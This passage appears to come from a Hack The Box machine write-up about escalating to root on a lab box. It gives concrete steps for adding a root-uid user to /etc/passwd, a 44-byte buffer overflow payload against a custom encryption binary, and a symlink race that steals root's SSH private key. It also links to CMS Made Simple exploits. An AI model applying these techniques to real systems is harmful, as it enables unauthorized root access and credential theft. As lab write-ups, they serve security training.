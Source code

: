```
The last step to privilege to root: (shell role is tester)
1.cp /etc/passwd /tmp/passwd
2.Generate the password for new user, such as leaker.
openssl passwd -1 -salt leaker pass123
The result is :    $1$leaker$.FSMJ3CZ0hJfjQS2/XWew.
3.Add the new user to /tmp/passwd
echo "leaker:$1$leaker$.FSMJ3CZ0hJfjQS2/XWew.:0:0:root:/root:/bin/bash" >> /tmp/passwd
4.Encrypt the passwd contained new user.
cp /home/developer/encryptpasswd.py /tmp/
python3 encryptpasswd.py
So we encrypted /tmp/passwd successfully.
5.Get the PIN code.
python3 createpin.py
PIN: -202976456
6.Overflow the name to encryption function.
python3 -c 'import pwn;print(b"A"*44 + pwn.p64(0x5655585b))'
Python printed the result: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[XUV\x00\x00\x00\x00
7.Run the ELF tool file_encrypt.
The interactive information is as follows:
./file_encrypt
-202976456
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[XUV\x00\x00\x00\x00
/tmp/passwd
/etc/passwd
And wait for several seconds the process completed when the error occured.
bash: [10583: 4 (255)] tcsetattr: Inappropriate ioctl for device

The new user was not added to /etc/passwd finally.
```

```
Try it manual with AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[XUV\x5b\x58\x55\x56

I wonder why you do all that steps. The file_encrypt program has a "sleep(3)" for a reason:

touch /tmp/aa && ln -s /root/.ssh/id_rsa /tmp/bb

run the program with the overflow to call encrypt function and enter input /tmp/aa and output /tmp/bb
then you have 3 seconds to run this in another console:

mv /tmp/bb /tmp/aa && touch /tmp/bb

With this you have bypassed the root owner check on the file and you have the id_rsa key on /tmp/bb, you just need to xor again, run the program and put input /tmp/bb and output /tmp/cc and the unencrypted root id_rsa will be there.

If you go through the editing of /etc/passwd you dont need to add a password at all to the file, just add this at the end of the file:

hacked::0:0:root:/root:/bin/bash

once you have this on /etc/passwd you just do su - hacked and u will have a shell with uid 0 and no password.
```


[author-profile]: https://app.hackthebox.com/users/172213
[blog-posts]: images/screenshots/blog-posts.png
[cmsms-version]: images/screenshots/cmsms-version.png
[cmsms-exploit]: https://www.rapid7.com/db/modules/exploit/multi/http/cmsms_object_injection_rce/
[cve-2019-9053]: https://www.exploit-db.com/exploits/46635
[cve-2019-9060]: https://nvd.nist.gov/vuln/detail/CVE-2019-9060
[user-profile]: images/screenshots/profile.png
